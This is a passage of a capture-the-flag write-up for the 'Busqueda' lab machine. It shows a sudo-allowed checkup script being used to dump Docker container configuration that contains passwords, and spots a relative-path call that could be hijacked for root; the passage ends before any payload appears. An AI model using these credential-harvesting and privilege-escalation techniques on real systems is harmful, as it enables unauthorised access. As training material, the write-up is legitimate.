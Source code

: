 ```bash
svc@busqueda:~$ sudo python3 /opt/scripts/system-checkup.py a
[sudo] password for svc: 
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:~$ sudo python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS          PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   3 months ago   Up 40 minutes   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   3 months ago   Up 40 minutes   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db

svc@busqueda:~$ sudo python3 /opt/scripts/system-checkup.py docker-inspect
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
svc@busqueda:~$ sudo python3 /opt/scripts/system-checkup.py docker-inspect json gitea/gitea:latest
json

svc@busqueda:~$ sudo python3 /opt/scripts/system-checkup.py full-checkup
Something went wrong
```

The script allowed to get some information about the docker containers running on the machine. It also had a `full-checkup` action, but it was failing. 

I did some research about the [`docker inspect` command](https://docs.docker.com/engine/reference/commandline/inspect/) that the script was probably calling. I found out that the `{% raw %}{{json .}}{% endraw %}` format would return everything as JSON.

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{% raw %}{{json .}}{% endraw %}' gitea/gitea:latest
{"Id":"sha256:6cd4959e1db11e85d89108b74db07e2a96bbb5c4eb3aa97580e65a8153ebcc78","RepoTags":["gitea/gitea:latest"], ...}

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{% raw %}{{json .}}{% endraw %}' mysql:8
{"Id":"sha256:7484689f290f1defe06b65befc54cb6ad91a667cf0af59a265ffe76c46bd0478","RepoTags":["mysql:8"], ...}
```

The returned JSON contained some passwords, I tried them to connect as root. It failed. I used the MySQL credentials to connect to the database and found some passwords, but failed to crack them.

I went back to the `full-checkup` action. It failed when I tried it. But I remembered that the `/opt/scripts` folder contained a file named `full-checkup.sh`. I thought maybe this script was executed without providing a full path. I tried again from the scripts folder and it worked.

```bash
svc@busqueda:~$ sudo python3 /opt/scripts/system-checkup.py full-checkup
Something went wrong

svc@busqueda:~$ ls -l /opt/scripts/
total 16
-rwx--x--x 1 root root  586 Dec 24 21:23 check-ports.py
-rwx--x--x 1 root root  857 Dec 24 21:23 full-checkup.sh
-rwx--x--x 1 root root 3346 Dec 24 21:23 install-flask.sh
-rwx--x--x 1 root root 1903 Dec 24 21:23 system-checkup.py

svc@busqueda:~$ cd /opt/scripts/

svc@busqueda:/opt/scripts$ sudo python3 /opt/scripts/system-checkup.py full-checkup
[=] Docker conteainers
```